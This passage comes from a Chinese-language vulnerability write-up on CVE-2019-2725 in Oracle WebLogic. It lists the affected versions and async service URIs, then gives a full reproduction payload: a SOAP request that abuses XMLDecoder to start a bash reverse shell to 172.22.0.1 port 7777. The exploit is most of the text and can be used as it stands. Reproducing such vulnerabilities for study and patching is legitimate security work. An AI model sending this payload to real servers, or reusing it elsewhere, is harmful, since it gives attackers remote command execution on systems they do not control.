 使用黑名单对上述标签进行了过滤

### 2.5 CVE-2019-2725分析

**影响范围**：  
WebLogic 10.X  
WebLogic 12.1.3  
**影响uri**：

```plain
/_async/AsyncResponseService
/_async/AsyncResponseServiceJms
/_async/AsyncResponseServiceHttps
/_async/AsyncResponseServiceSoap12
/_async/AsyncResponseServiceSoap12Jms
/_async/AsyncResponseServiceSoap12Https
```

**复现**：  
exp：

```plain
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"
                  xmlns:wsa="http://www.w3.org/2005/08/addressing"
                  xmlns:asy="http://www.bea.com/async/AsyncResponseService">
    <soapenv:Header>
        <wsa:Action>xx</wsa:Action>
        <wsa:RelatesTo>xx</wsa:RelatesTo>
        <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
            <java version="1.4.0" class="java.beans.XMLDecoder">
                <void class="java.lang.ProcessBuilder">
                    <array class="java.lang.String" length="3">
                        <void index="0">
                            <string>/bin/bash</string>
                        </void>
                        <void index="1">
                            <string>-c</string>
                        </void>
                        <void index="2">
                            <string>bash -i &gt;&amp; /dev/tcp/172.22.0.1/7777 0&gt;&amp;1</string>
                        </void>
                    </array>
                    <void method="start"/>
                </void>
            </java>
        </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body>
        <asy:onAsyncDelivery/>
    </soapenv:Body>
</soapenv:Envelope>
```
